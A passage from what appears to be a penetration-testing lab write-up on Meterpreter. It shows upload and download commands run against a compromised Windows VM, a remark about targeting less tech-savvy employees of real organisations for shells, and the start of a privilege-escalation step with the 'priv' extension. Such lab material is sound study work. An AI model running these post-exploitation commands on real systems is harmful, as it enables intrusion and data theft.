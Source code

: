 ### 1.2 Uploading and downloading files

1. Uploading `vncviewer.exe` from Part 5 with `meterpreter > upload /usr/share/windows-binaries/vncviewer.exe c:\\`

![Meterpreter-upload](Meterpreter-upload.png)

![vncviewer-location](vncviewer-location.png)

2. Download files with `download c:\\java0.log /home/kali/Desktop`

![Meterpreter-Download-file](Meterpreter-Download-file.png)

## 2. Privilege Escalation In Meterpreter

When targeting real organisations I will be most likely targeting employees that aren't the most tech-savy to gain either a reverse or bind shell, this is great to get access inside a network but I won't have the level of access to perform administrative commands which is game over for a target.

1. To increase my privilege on the win2k8 vm machine I will use the `priv` extension provided within Meterpreter
